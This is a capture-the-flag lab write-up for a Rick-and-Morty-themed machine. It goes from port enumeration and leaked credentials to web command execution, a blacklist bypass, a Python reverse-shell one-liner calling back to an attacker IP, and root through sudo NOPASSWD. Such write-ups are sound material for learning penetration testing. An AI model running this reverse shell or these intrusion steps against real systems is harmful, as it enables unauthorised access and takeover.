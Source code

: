 Machine IP - 10.10.141.187

Port enumeration -
```
22
80
7800
```
browsing over to webpage and checking source code reveals username - 
```
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
dirsearch result -
```
[06:11:32] 200 -    2KB - /assets/                                          
[06:11:32] 301 -  315B  - /assets  ->  http://10.10.141.187/assets/         
[06:11:45] 200 -    1KB - /index.html                                       
[06:11:48] 200 -  882B  - /login.php                                        
[06:11:59] 200 -   17B  - /robots.txt 
```

Browsing to robots.txt
```
Wubbalubbadubdub
```

Trying R1ckRul3s:Wubbalubbadubdub credentials in ssh gives error, trying in /login.php page succeeds.

trying basic commands worked -
```
$ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

few commands were blacklisted which prevent us from spawning reverse shells with nc and reading that txt file...

```
grep -R .

# Reveals content of all files in the current directory and we get the first ingeredient

Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
```
python3 is installed on machine - 
```

```

Using python3 reverse-shell -
```
# on attacker machine
nc -lnvp 4444
```
```
# on command execution page
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.16.134",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
We land as www-data, uploading linpeas.sh to check for vulnerabilities-
```
# we find a great thing here

User www-data may run the following commands on ip-10-10-63-154.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
So baiscally we can run all commands with this account including loggin in as root without password, 
```
sudo bash

$ sudo bash
sudo bash
root@ip-10-10-63-154:/tmp# whoami
whoami
root

```
ez!
From here we can check both the remaining flags in /root and /home/rick
